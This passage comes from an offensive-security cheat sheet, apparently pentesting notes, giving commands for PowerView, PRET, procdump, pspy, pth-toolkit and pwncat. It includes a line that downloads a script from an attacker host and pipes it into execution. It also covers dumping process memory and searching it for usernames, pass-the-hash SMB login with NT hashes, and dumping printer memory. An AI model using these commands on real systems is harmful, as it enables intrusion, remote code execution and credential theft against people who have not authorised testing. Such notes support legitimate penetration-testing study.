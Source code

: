 > https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```c
PS C:\> curl http://<LHOST>/PowerView.ps1 | iex
```

### PRET

> https://github.com/RUB-NDS/PRET

```c
$ ./pret.py
$ ./pret.py <printer fqdn> ps    // pjl
```

```c
<RHOST>:/> ls
<RHOST>:/> cd
<RHOST>:/> get
<RHOST>:/> nvram dump
```

### procdump

```c
PS C:\> .\procdump64.exe -accepteula -ma <PID>
PS C:\> type <FILE>.dmp | Select-String "username="
```

### pspy

> https://github.com/DominicBreuker/pspy

```c
$ pspy64 -f
$ pspy64 -pf -i 1000
```

### pth-toolkit

> https://github.com/byt3bl33d3r/pth-toolkit

```c
$ pth-smbclient --user=<USERNAME> --pw-nt-hash -m smb3 \\\\<RHOST>\\<USERNAME> <HASH>
```

### pwncat

> https://github.com/calebstewart/pwncat

> https://pwncat.readthedocs.io/en/latest/usage.html

#### Common Commands

```c
(local) pwncat$ back    // get back to shell
Ctrl+d                  // get back to pwncat shell
```
